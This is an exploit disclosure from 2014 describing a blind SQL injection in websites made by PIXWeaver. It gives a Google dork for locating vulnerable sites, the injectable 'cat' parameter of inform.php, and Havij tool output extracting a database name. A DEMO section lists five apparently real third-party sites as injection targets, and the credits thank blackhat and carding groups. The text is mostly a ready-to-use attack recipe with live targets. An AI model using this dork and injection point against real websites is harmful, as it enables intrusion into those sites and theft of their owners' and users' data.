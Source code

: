 # Website by PIXWeaver Blind SQL Injection Disclosure

* Exploit Title        : Website by PIXWeaver Blind SQL Injection Disclosure
* Google Dork          : inurl:/inform.php?cat=
* Date                 : 26/08/2014
* Exploit Author       : Barrabravaz
* Vendor Homepage      : http://www.pixweaver.com/
* Version              : -
* Tested on            : Windows, Linux

## Author will be not responsible for any damage
* Issue: Blind SQL Injection Disclosure Vulnerability
* Risk level: High

## Proof Of Concept:
`http://127.0.0.1/inform.php?cat=%inject_here%&pv=45`
* ( take Havij for example )
* Host IP: 207.112.70.25
* Web Server: Apache/2.2.27
* Powered-by: PHP/5.4.16
* Keyword Found: Last
* Injection type is String (')
* DB Server: MySQL >=5
* Trying another method using keyword for finding columns count
* Findig columns count for MySQL failed!
* Testing for MySQL error based injection method
* MySQL error based injection method cant be used!
* Trying blind method
* Finding current data base
* Length of 'Current DB' is 7
* Current DB: test_db

## DEMO
> http://toybuildingzone.com/inform.php?cat=%inject_here%&pv=45

> http://www.sportsystemscorp.com/inform.php?cat=%inject_here%

> http://www.cantow.ca/inform.php?cat=%inject_here%&nv=188

> http://www.agl.ca/inform.php?cat=%inject_here%&nv=23

> http://www.movemyhottub.ca/inform.php?cat=%inject_here%&nv=150

## Thanks To
* Allah SWT
* Cyptn my beloved
* $$Hunter
* IDC
* Jim Geovedi
* Yogyakarta Blackhat
* Yogyacarderlink
* And You

## Credit
* Discovered By Barrabravaz
* barrabravaz@outlook.com 
* jasasekuritionline[dot]com
* https://fb.me/akubocahmuyank

[Original Article](http://www.surabayablackhat.org/forum/thread-3112.html)